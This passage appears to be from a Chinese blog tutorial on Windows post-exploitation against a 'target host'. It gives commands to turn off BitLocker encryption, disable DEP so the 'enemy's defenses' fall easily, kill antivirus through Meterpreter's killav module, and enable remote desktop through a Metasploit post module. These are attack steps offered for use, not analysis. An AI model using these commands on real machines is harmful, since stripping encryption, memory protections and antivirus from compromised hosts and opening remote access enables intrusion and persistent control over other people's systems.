 在windows下查看服务情况<br/>
`win+r 运行services.msc`<br/>
<img src="https://img-blog.csdnimg.cn/20200720114515588.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1l1X2NzZG5zdG9yeQ==,size_16,color_FFFFFF,t_70" alt=""/>

#### <a id="_147"/>磁盘加密

Bitlocker 磁盘加密，有的电脑的加密文件是被加密封存，Bitlocker加密就是一种，集成在 windows系统软件系统中。

关掉目标主机的磁盘加密：

```
 manage-bde -off C: 

```

查看磁盘加密状态：

```
manage-bde -status C: 

```

#### <a id="DEP_161"/>关闭DEP

DEP是一种基于硬件的防护cpu防护技术。关闭DEPk可以容易的攻破敌方的防御。<br/>
可以使用如下命令

```
 bcdedit.exe /set {current} nx AlwaysOff

```

#### <a id="_168"/>杀死防病毒软件

在meterpreter的命令符下输入

```
Run killav

```

也可以直接使用post模块

```
run post/windows/manage/killav 

```

#### <a id="_179"/>开启远程桌面服务

##### <a id="post_181"/>使用post模块

```
 run post/windows/manage/enable_rdp 

```

<img src="https://img-blog.csdnimg.cn/20200721171535926.png" alt=""/>

